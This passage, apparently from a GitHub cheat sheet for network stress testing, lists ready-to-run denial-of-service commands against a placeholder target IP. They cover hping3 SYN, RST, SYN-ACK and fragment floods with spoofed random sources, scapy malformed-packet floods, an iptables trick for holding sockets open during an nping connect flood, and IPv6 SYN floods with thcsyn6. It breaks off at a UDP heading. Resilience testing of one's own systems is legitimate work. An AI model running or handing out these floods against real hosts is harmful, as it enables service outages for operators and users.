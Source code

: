 ```bash
hping3 --verbose --syn --ymas --flood --win 65535 --ttl 64 --dontfrag --baseport 49877 --destport 80 $remote_IP

# SYN flood w/all flags set
hping3 --verbose --fin --syn --push --ack --urg --xmas --ymas --urg --flood --win 65535 --ttl 64 --dontfrag --baseport 49877 --destport 80 $remote_IP

# RST Flood max
hping3 -R --rand-source --faster -p $port $remote_IP

# TCP Packets without Flag
hping3 -i u1 --rand-source -p $port $remote_IP

# SYN-ACK Flood
hping3 -S -A --rand-source --fast -p $port $remote_IP

# Fast TCP port scan
nmap -sS -F $remote_IP

# FIN bit with no ACK bit
hping3 -F -i u1 --rand-source -p $port $remote_IP

# Incomplete & Duplicate Fragment flood
hping3   -P -A -i u1 --rand-source -p 80 -x -g 500 -m 1400 -d 1400 $remote_IP

# TCP packet anomaly (ttl is 0)
"#scapy
send(IP(dst=""$remote_IP"",ttl=0)/TCP(),count=5000)"

# Malformed TCP flood, no L4 data
"#scapy
send(IP(dst=""$remote_IP"",len=32)/TCP()/Raw(load=""malformed""),count=50000)"

# TCP full open socket flood; iptables rule blocks socket teardown
iptables -A OUTPUT -p tcp --tcp-flags FIN FIN -d $remote_IP -j DROP; nping --tcp-connect -p 80 --rate 50 --c 10000 -q $remote_IP
# After the test is complete, clean up with 
iptables -F
```

### IPV6 TCP

```bash
# IPv6 SYN-ACK flood random source
thcsyn6 -S -R -p x $interface $hostname $remote_port

# IPv6 SYN flood random source
thcsyn6 -R -p x $interface $hostname $remote_port
```

### UDP
